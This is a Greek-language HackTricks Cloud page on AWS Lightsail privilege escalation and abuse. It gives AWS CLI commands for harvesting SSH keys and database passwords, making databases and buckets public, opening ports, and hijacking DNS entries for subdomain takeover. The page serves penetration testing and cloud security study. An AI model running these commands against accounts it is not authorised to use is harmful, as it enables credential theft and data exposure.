 # AWS - Lightsail Privesc

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lightsail

Για περισσότερες πληροφορίες σχετικά με το Lightsail ελέγξτε:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Είναι σημαντικό να σημειωθεί ότι το Lightsail **δεν χρησιμοποιεί ρόλους IAM που ανήκουν στον χρήστη** αλλά σε έναν διαχειριζόμενο λογαριασμό AWS, οπότε δεν μπορείτε να εκμεταλλευτείτε αυτή την υπηρεσία για privesc. Ωστόσο, **ευαίσθητα δεδομένα** όπως κώδικας, API keys και πληροφορίες βάσης δεδομένων θα μπορούσαν να βρεθούν σε αυτή την υπηρεσία.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Αυτή η άδεια θα σας επιτρέψει να αποκτήσετε τα SSH keys για να έχετε πρόσβαση στις περιπτώσεις:
```
aws lightsail download-default-key-pair
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στις περιπτώσεις.

### `lightsail:GetInstanceAccessDetails`

Αυτή η άδεια θα σας επιτρέψει να δημιουργήσετε κλειδιά SSH για να αποκτήσετε πρόσβαση στις περιπτώσεις:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στις περιπτώσεις.

### `lightsail:CreateBucketAccessKey`

Αυτή η άδεια θα σας επιτρέψει να αποκτήσετε ένα κλειδί για να έχετε πρόσβαση στον κάδο:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στον κάδο.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Αυτή η άδεια θα σας επιτρέψει να αποκτήσετε τα διαπιστευτήρια για να έχετε πρόσβαση στη βάση δεδομένων:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στη βάση δεδομένων.

### `lightsail:UpdateRelationalDatabase`

Αυτή η άδεια θα σας επιτρέψει να αλλάξετε τον κωδικό πρόσβασης για να αποκτήσετε πρόσβαση στη βάση δεδομένων:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Αν η βάση δεδομένων δεν είναι δημόσια, μπορείτε επίσης να την κάνετε δημόσια με αυτές τις άδειες με

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στη βάση δεδομένων.

### `lightsail:OpenInstancePublicPorts`

Αυτή η άδεια επιτρέπει το άνοιγμα θυρών στο Διαδίκτυο.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Πιθανές Επιπτώσεις:** Πρόσβαση σε ευαίσθητες θύρες.

### `lightsail:PutInstancePublicPorts`

Αυτή η άδεια επιτρέπει το άνοιγμα θυρών στο Διαδίκτυο. Σημειώστε ότι η κλήση θα κλείσει οποιαδήποτε θύρα έχει ανοιχτεί και δεν έχει καθοριστεί σε αυτήν.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Πιθανές Επιπτώσεις:** Πρόσβαση σε ευαίσθητες θύρες.

### `lightsail:SetResourceAccessForBucket`

Αυτή η άδεια επιτρέπει να δώσετε σε μια παρουσία πρόσβαση σε έναν κάδο χωρίς επιπλέον διαπιστευτήρια.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Πιθανές Επιπτώσεις:** Πιθανή νέα πρόσβαση σε buckets με ευαίσθητες πληροφορίες.

### `lightsail:UpdateBucket`

Με αυτή την άδεια, ένας επιτιθέμενος θα μπορούσε να παραχωρήσει την δική του AWS λογαριασμό πρόσβαση ανάγνωσης σε buckets ή ακόμα και να κάνει τα buckets δημόσια σε όλους:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Πιθανές Επιπτώσεις:** Πιθανή νέα πρόσβαση σε buckets με ευαίσθητες πληροφορίες.

### `lightsail:UpdateContainerService`

Με αυτές τις άδειες, ένας επιτιθέμενος θα μπορούσε να παραχωρήσει πρόσβαση σε ιδιωτικά ECRs από την υπηρεσία κοντέινερ.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Πιθανές Επιπτώσεις:** Λάβετε ευαίσθητες πληροφορίες από ιδιωτικό ECR

### `lightsail:CreateDomainEntry`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να δημιουργήσει υποτομέα και να τον κατευθύνει στη δική του διεύθυνση IP (κατάληψη υποτομέα), ή να δημιουργήσει ένα SPF record που του επιτρέπει να παραποιεί emails από το domain, ή ακόμα και να ορίσει το κύριο domain στη δική του διεύθυνση IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Πιθανές Επιπτώσεις:** Κατάληψη ενός τομέα

### `lightsail:UpdateDomainEntry`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να δημιουργήσει υποτομέα και να τον κατευθύνει στη δική του διεύθυνση IP (κατάληψη υποτομέα), ή να δημιουργήσει ένα SPF record που του επιτρέπει να παραποιεί emails από τον τομέα, ή ακόμα και να ρυθμίσει τον κύριο τομέα στη δική του διεύθυνση IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Πιθανές Επιπτώσεις:** Κατάληψη ενός τομέα

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
